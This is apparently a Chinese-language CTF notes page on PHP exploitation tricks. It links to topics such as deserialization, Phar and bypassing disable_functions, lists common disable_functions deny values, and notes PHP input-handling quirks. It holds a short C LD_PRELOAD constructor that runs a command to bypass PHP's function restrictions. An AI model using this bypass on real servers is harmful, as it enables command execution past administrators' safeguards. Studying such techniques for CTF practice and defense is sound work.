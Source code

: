 - [[CTF/PHP/弱类型]]
- [[CTF/PHP/可变函数]]
- [[CTF/PHP/无引号字符串]]
- [[CTF/PHP/FFI]]
- [[CTF/PHP/Phar]]
- [[CTF/PHP/原生类]]
- [[CTF/PHP/Session]]
- [[CTF/PHP/反序列化]]
- [[CTF/PHP/特殊标签]]
- [[PHP/忽略错误]]
- [[PHP/模板字符串]]
- [[CTF/PHP/巧用exit()]]
- [[CTF/PHP/运算优先级]]
- [[CTF/PHP/用处特殊的函数]]
- # disable_function
	- ```
	  disable_functions = system,exec,shell_exec,passthru,proc_open,proc_close, proc_get_status,checkdnsrr,getmxrr,getservbyname,getservbyport, syslog,popen,show_source,highlight_file,dl,socket_listen,socket_create,socket_bind,socket_accept, socket_connect, stream_socket_server, stream_socket_accept,stream_socket_client,ftp_connect, ftp_login,ftp_pasv,ftp_get,sys_getloadavg,disk_total_space, disk_free_space,posix_ctermid,posix_get_last_error,posix_getcwd, posix_getegid,posix_geteuid,posix_getgid, posix_getgrgid,posix_getgrnam,posix_getgroups,posix_getlogin,posix_getpgid,posix_getpgrp,posix_getpid, posix_getppid,posix_getpwnam,posix_getpwuid, posix_getrlimit, posix_getsid,posix_getuid,posix_isatty, posix_kill,posix_mkfifo,posix_setegid,posix_seteuid,posix_setgid, posix_setpgid,posix_setsid,posix_setuid,posix_strerror,posix_times,posix_ttyname,posix_uname
	  ```
	  
	  
	  ```
	  passthru,system,putenv,chroot,chgrp,chown,popen,proc_open,pcntl_exec,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,imap_open,apache_setenv
	  ```
	-
	- 不完整版
		- ```
		  passthru,system,chroot,chgrp,chown,proc_open,proc_get_status,popen,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,putenv
		  ```
	- 绕过
		- https://blog.csdn.net/jvkyvly/article/details/120197390#t10
		- [[CTF/PHP/绕过disable_function]]
		-
- # LD_PRELOAD
	- ```c
	  #include <stdlib.h>
	  #include <stdio.h>
	  #include <string.h>
	  
	  __attribute__ ((__constructor__)) void angel (void){
	    unsetenv("LD_PRELOAD");
	    system("/readflag > /tmp/wx.txt");
	  }
	  ```
- # 传入变量名转换
	- 如果变量名中有 `.` 或者空格，那 PHP 会将其转换成下划线
- # $_SERVER
	- `$_SERVER['QUERY_STRING']` 不会进行 url 转义
- # $_REQUEST
	- `$_REQUEST` 中 post 的优先级更高
	- 由 `phpinfo` 中的 `request_order` 和 `variables_order` 定义
-